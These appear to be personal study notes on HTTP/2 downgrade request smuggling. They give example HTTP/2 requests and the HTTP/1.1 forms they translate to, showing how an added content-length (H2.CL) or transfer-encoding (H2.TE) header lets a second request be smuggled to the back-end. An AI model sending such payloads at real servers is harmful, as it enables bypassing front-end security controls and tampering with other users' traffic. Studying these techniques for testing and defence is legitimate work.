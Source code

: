 # HTTP/2 
Request / Response use binary protocol.

- Required headers use `:`
- Lowercase for other headers
- Precise boundaries (not \r\n)

## HTTP 1.1
```sh
POST / HTTP1.1\r\n
User-Agent: Mozilla Firefox\r\n
Content-Length: 4\r\n
Host: 10.10.10.10:80\r\n
\r\n
q=test
```

## HTTP 2
```sh
:method POST
:path /
:scheme https
:authority: 10.10.10.10:80
user-agent Mozilla Firefox
content-length 4
q=test
```

## Downgrading
When a reverse proxy serves content to the end user with http2 but request from the back-end using HTTP1.1.

`Client <- HTTP/2 -> Front-end <- HTTP 1.1 -> Back-end`

### How it works
The `content-length` header has no meaning in HTTP2, but nothing stops us from adding so it will be accepted by the backend.
```
:method POST
:path /
:scheme https
:authority example.com
user-agent: Mozilla/5.0
content-length 0
HELLO
```

#### Request 1 (translated)
With a content length of 0 the backend will think this is a POST request with no body. Whatever comes after the headers will be interpreted as the start of a new request. 
```
POST / HTTP1.1\r\n
Host: example.com\r\n
User-Agent: Mozilla/5.0\r\n
Content-Length: 0\r\n
\r\n
```

#### Request 2 (smuggled)
The word HELLO is not a complete http1.1 request, therefore the backend server will wait until more data arrives to complete it.
```
HELLO
```

## H2.TE
We can also add the `Transfer-Encoding: chunked` header to the front-end HTTP/2 request in hopes that it will be passed to the HTTP1.1 connection.

Original Request
```
:method POST
:path /
:scheme https
:authority example.com
user-agent Mozilla/5.0
transfer-encoding chunked
0\r\n
\r\n
GET /other HTTP/1.1\r\n
Bad: data
```

Request 1 (Translated)
```
POST / HTTP/1.1\r\n
Host: example.com\r\n
User-Agent: Mozilla/5.0\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
```

Request 2 (Smuggled)
```
GET /other HTTP/1.1\r\n
Bad: data
```
